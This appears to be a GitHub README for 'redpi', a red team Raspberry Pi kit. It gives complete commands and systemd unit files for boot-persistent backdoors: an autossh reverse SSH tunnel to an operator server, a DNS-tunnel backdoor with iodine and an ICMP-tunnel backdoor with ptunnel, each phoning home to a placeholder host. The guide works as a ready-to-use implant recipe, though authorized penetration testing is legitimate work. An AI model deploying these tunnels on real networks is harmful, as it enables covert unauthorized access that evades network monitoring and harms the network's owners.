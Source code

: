 # redpi
red team tools to install into a rpi

## install

```
sudo ./setup.sh
```

## autossh

In order to have a remote connexion to the raspberry:
```bash
ssh-keygen -t rsa -b 4096
ssh-copy-id -i ~/.ssh/id_rsa.pub user@domain -> to copy keys to the remote server
ssh user@domain -> to verify that we do not need password anymore to connect
```

Then create a service that will autossh to your domain at boot time:
```bash
sudo vim /etc/systemd/system/autossh.service

[Unit]
Description="une description du service"
Wants=network-online.target ssh.target
After=network-online.target ssh.target

[Service]
#Type=simple
User=pi
Environment="AUTOSSH_GATETIME 0"
ExecStart=/usr/bin/autossh -N -R 2222:localhost:22 user@domain -p 22 -i ~/.ssh/id_rsa
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

You need to reload the services list:

```bash
sudo systemctl daemon-reload
sudo systemctl enable autossh.service
sudo reboot
```

Then you could connect to your domain, then:
```bash
ssh pi@localhost -p 2222
```

## iodine and backdoor through dns tunneling

Modify your DNS zone as follow:
A record: tunnelhost.DOMAINNAME.com maps to IP
NS record: tunnel.DOMAINNAME.com maps to tunnelhost.DOMAINNAME.com

On the server (VPS):
```bash
sudo iodined -c -f 172.16.0.0/24 -P SuperPassword tunnel.DOMAINNAME.com
```

This command will create a interface (dns0) with IP 172.16.0.0

On the client (raspberry) create the service:
```bash
sudo vim /etc/systemd/system/autoiodine.service


[Unit]
Description="une description du service"
Wants=network-online.target ssh.target
After=network-online.target ssh.target

[Service]
#Type=simple
User=root
ExecStart=/usr/sbin/iodine -I 50 -f -P SuperPassword tunnel.DOMAINNAME.com
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

This service will create an interface (dns1) with ip 172.16.0.1

Then reload the service and enable it:
```bash
sudo sytemctl daemon-reload
sudo systemctl enable autoiodine.service
sudo reboot
```

Then you could connect to your domain, then ssh through dns tunnel to the raspberry pi:
```bash
ssh pi@172.16.0.1
```

## ptunnel and backdoor throught icmp tunneling

On the server (VPS):
```bash
sudo ptunnel -c ens3 -x SuperPassword
```

On the client, if not already done with autossh:
```bash
ssh-keygen -t rsa -b 4096
ssh-copy-id ~/.ssh/id_rsa.pub USER@domain -> to copy keys to the remote server
ssh USER@domain -> to verify that we do not need password anymore to connect
```

On the client (raspberry), create a bash script:
```bash
touch /home/pi/autoptunnel.sh
chmod +x home/pi/autoptunnel.sh
vim /home/pi/autoptunnel.sh

#!/bin/bash
/usr/sbin/ptunnel -p IP_SERVER -lp 8000 -da IP_SERVER -dp 22 -x SuperPassword &
sleep 5
ssh -N -R 2222:localhost:22 USER@localhost -p 8000 -i ~/.ssh/id_rsa
# do not take the same 2222 port as the one mentionned into the autossh section of course
```

Then, still on the client, create a service:
```bash
sudo vim /etc/systemd/system/autoptunnel.service


[Unit]
Description="une description du service"
Wants=network-online.target ssh.target
After=network-online.target ssh.target

[Service]
#Type=simple
User=root
ExecStart=/bin/bash /home/pi/autoptunnel.sh
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

Then reload the service and enable it:
```bash
sudo sytemctl daemon-reload
sudo systemctl enable autoptunnel.service
sudo reboot
```

Then on the server, you can connect to the pi:
```bash
ssh pi@localhost -p 2222
```


